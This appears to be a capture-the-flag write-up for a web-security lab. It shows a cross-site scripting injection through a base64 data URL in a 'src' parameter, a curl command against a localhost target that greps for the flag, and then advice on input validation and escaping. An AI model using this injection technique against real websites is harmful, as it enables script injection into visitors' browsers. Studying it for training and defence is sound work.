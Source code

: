 GET /index.php?page=media&src=data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



the tag object hold as data a url to the nsa_prism jpg
and it is passed to it through the variable src

data:application/javascript;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
<object data=""> </object>

PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==



curl "http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" | grep "The flag is :"


resource : https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs



*** Prevention ***

### Secure handling of user input 
```
you must never implicitly trust input submitted by a user. Inspect all user-submitted input to ensure it doesn’t include risky characters that may affect how a user’s browser interprets the data on your website. Implement thorough input validation and ensure characters are output-escaped.
```

### escaping and encoding
```
encode any special characters to ensure the program interprets them literally (and not as special characters) before you allow them to render on your webpage. You might, for example, replace angle brackets < > in HTML with alternative characters, like &lt and &gt, to prevent the characters contained in them from forming a tag. You should also escape characters that convey special meanings in HTML. 
```